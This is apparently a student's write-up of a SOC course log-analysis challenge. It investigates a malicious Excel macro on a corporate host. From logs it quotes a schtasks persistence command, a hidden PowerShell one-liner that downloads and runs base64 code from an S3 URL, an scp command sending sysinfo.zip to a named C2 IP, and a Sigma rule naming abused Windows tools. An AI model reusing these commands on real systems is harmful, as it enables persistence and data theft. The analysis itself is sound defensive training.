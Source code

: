 ```yaml
---
title: Log Analysis - Challenge 2
date: 2025-05-08 11:35:00 +550
categories: [Digital Forensics, Log Analysis]
tags: [Digital Forensics]
---
```




Preface
> The log data is from the SOC100 course by Level Effect. This is the documentation of my thought process and analysis of
> the log analysis challenges from this course. 


Scenario
> On `Jan 12, 2025 @ 06:46:00Z` our SOC was alerted on our `Suspicious MS Office Child Process` 
> Sigma rule for user `GOODCORP\Gooduser` on host  `WS1.goodcorp.local`.

We are also given the sigma rule that was triggered.

```
(process.parent.name:

(EQNEDT32.EXE OR EXCEL.EXE OR MSACCESS.EXE OR MSPUB.exe OR ONENOTE.EXE OR POWERPNT.exe OR VISIO.exe OR WINWORD.EXE OR wordpad.exe OR wordview.exe)

) 

AND

(process.name:

(bash.exe OR bitsadmin.exe OR certutil.exe OR cmd.exe OR control.exe OR cscript.exe OR curl.exe OR installutil.exe OR javaw.exe OR msdt.exe OR mshta.exe OR msiexec.exe OR powershell.exe OR pwsh.exe OR regasm.exe OR regsvcs.exe OR regsvr32.exe OR rundll32.exe OR schtasks.exe OR svchost.exe OR wmic.exe OR wscript.exe)

)

```

After selecting the index, set the time range to `Jan 12, 2025 @ 06:35:00.000` -> `Jan 12, 2025 @ 07:05:00.000`.

Filtering for the first part of the triggered Sigma rule.

```
process.parent.name: (EQNEDT32.EXE OR EXCEL.EXE OR MSACCESS.EXE OR MSPUB.exe OR ONENOTE.EXE OR POWERPNT.exe OR VISIO.exe OR WINWORD.EXE OR wordpad.exe OR wordview.exe)
```

![Pasted image 20250308100132.png](/assets/img/Pasted%20image%2020250308100132.png)

We find that three alerts have been triggered for command execution with the parent process of `EXCEL.EXE`.
Expanding the logs we can see that the parent process of excel ran a file called `HSA Balance Update.xlsm` that spawned the `cmd` process.

![Pasted image 20250308104202.png](/assets/img/Pasted%20image%2020250308104202.png)

Analyzing the command run uncovers that it is creating a scheduled task to run a file called `1.css` every 10 minutes. 

```Cmd
cmd /Q /c schtasks /Create /TN "7655603E83CC" /TR "cmd /c start /min powershell.exe -win hidd -nop -ep bypass -c \"IEX ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((New-Object 
Net.Webclient).downloadstring(\\\"https://ibarblkacoiwlkese.s3.amazonaws.com/1.css\\\"))))\"" /SC MINUTE /MO 10 /F
```

So now we can update our filters to look for the execution of the scheduled task. Filter for `cmd.exe`  that will be run by the scheduled task.

![Pasted image 20250308100409.png](/assets/img/Pasted%20image%2020250308100409.png)

Since we know that the excel file was run at 6:46, the scheduled task would have ran at 6:56.

Time: Jan 12, 2025 @ 06:46:03
Process ID: 11244

![Pasted image 20250308100423.png](/assets/img/Pasted%20image%2020250308100423.png)

Time: Jan 12, 2025 @ 06:56:01
Process ID: 2088

![Pasted image 20250308100514.png](/assets/img/Pasted%20image%2020250308100514.png)


Now that we have found the process that's being run we can filter for it's PID as the parent PID to see what commands the file is running.

![Pasted image 20250308101034.png](/assets/img/Pasted%20image%2020250308101034.png)



![Pasted image 20250308101906.png](/assets/img/Pasted%20image%2020250308101906.png)

```PowerShell
powershell.exe  -win hidd -nop -ep bypass -c "IEX ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((New-Object Net.Webclient).downloadstring(\"https://ibarblkacoiwlkese.s3.amazonaws.com/1.css\"))))"
```

The PowerShell script is downloading some other executables like SFTP, SSH and SCP all most likely being used for persistence and data exfiltration.

![Pasted image 20250308102045.png](/assets/img/Pasted%20image%2020250308102045.png)


Since the scheduled task is spawning a PowerShell process we can filter for the PID of that process.

![Pasted image 20250308102305.png](/assets/img/Pasted%20image%2020250308102305.png)


![Pasted image 20250308103110.png](/assets/img/Pasted%20image%2020250308103110.png)

```
"C:\ProgramData\OpenSSH-Win64\scp.exe" -o StrictHostKeyChecking=no -o UserKnownHostsFile=NUL -i C:\ProgramData\OpenSSH-Win64\out_s -P 443 C:\ProgramData\OpenSSH-Win64\sysinfo.zip fence@159.89.237.228:/home/fence/collections/
```

Attacker C2 server IP: 159.89.237.228
Private Key: `out_s`
Data Exfil: sysinfo.zip

The script is running the `scp.exe` to exfiltrate a file called sysinfo.zip to the attackers C2 server. It is using the private key `out_s` specified
using the `-i` flag in the SCP command.

